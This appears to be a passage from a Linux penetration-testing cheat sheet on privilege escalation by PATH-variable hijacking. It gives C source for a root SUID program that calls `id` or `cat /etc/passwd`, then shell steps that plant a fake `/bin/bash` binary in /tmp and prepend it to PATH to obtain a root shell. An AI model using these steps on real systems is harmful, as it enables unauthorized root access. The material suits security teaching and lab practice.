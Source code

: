 ### If executing `id` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("id");
}
```
Then:
```bash
$cd /tmp
$echo "/bin/bash" > id
$chmod 777 id
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/quac/script
$./shell
$whoami
```

### If executing `cat` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("cat /etc/passwd");
}
```
Then:
```bash
$cd /tmp
$nano cat
/bin/bash
```
```bash
$chmod 777 cat
$ls -al cat
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/quac/script
$./shell
$whoami
```

Refer: [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

## SUID
### Find SUID binaries
